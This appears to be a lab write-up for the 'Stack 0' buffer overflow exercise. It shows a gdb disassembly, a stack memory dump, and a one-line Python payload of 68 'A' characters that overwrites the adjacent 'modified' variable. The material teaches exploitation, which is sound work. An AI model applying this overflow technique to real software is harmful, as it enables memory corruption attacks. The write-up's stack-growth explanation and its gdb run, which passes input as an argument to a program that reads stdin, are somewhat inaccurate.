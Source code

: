 # Stack 0

### Overview
        The esp(current stack pointer) grows upward when allocating memory 
        and the higher the esp goes, it points to smaller address number.
        Thus, you need to overwrite all the space of buffer(64 bytes) 
        and then overwrite the allocated space for int modified.

### Process
    $ gdb -q ./stack0
    (gdb) disas main
        Dump of assembler code for function main:
            0x080483f4 <+0>:     push   %ebp
            0x080483f5 <+1>:     mov    %esp,%ebp
            0x080483f7 <+3>:     and    $0xfffffff0,%esp
            0x080483fa <+6>:     sub    $0x60,%esp
            0x080483fd <+9>:     movl   $0x0,0x5c(%esp)
            0x08048405 <+17>:    lea    0x1c(%esp),%eax
            0x08048409 <+21>:    mov    %eax,(%esp)
            0x0804840c <+24>:    call   0x804830c <gets@plt>
            0x08048411 <+29>:    mov    0x5c(%esp),%eax
            0x08048415 <+33>:    test   %eax,%eax
            0x08048417 <+35>:    je     0x8048427 <main+51>
            0x08048419 <+37>:    movl   $0x8048500,(%esp)
            0x08048420 <+44>:    call   0x804832c <puts@plt>
            0x08048425 <+49>:    jmp    0x8048433 <main+63>
            0x08048427 <+51>:    movl   $0x8048529,(%esp)
            0x0804842e <+58>:    call   0x804832c <puts@plt>
            0x08048433 <+63>:    leave
            0x08048434 <+64>:    ret
        End of assembler dump.
    (gdb) b *main+29
    (gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
            Breakpoint 1, main (argc=1,argv=0xffffd634) at stack0/stack0.c:13
            13      stack0/stack0.c: No such file or directory.
    (gdb) x/60x $esp
        0xffffd530: 0xffffd54c  0xffffd5d4  0xf7fb8000  0x0000cd57
        0xffffd540: 0xffffffff  0x0000002f  0xf7e12dc8  0x41414141
        0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x41414141  0x41414141  0x00004141  0xf7e34c0b
        0xffffd580: 0xf7fb83dc  0x080481e8  0x0804845b  0x00000000
        0xffffd590: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5a0: 0x00000001  0xffffd634  0xffffd63c  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5c0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5d0: 0x00000000  0x607935e6  0x5c199bf6  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0x00000001  0x08048340
        0xffffd5f0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd600: 0x00000001  0x08048340  0x00000000  0x08048361
        0xffffd610: 0x080483f4  0x00000001  0xffffd634  0x08048450

    buffer[64]: from last stack of line 0xffffd540 
                to 3rd stack of line 0xffffd580 
                -> 64 bytes needs to be overwritten
    modified: from last stack of line 0xffffd580
### Method
    Use more than 64 bytes to overwrite

### Answer
    $ python -c 'print "A"*68' | ./stack0
    
    you have changed the 'modified' variable

    

    
    
    
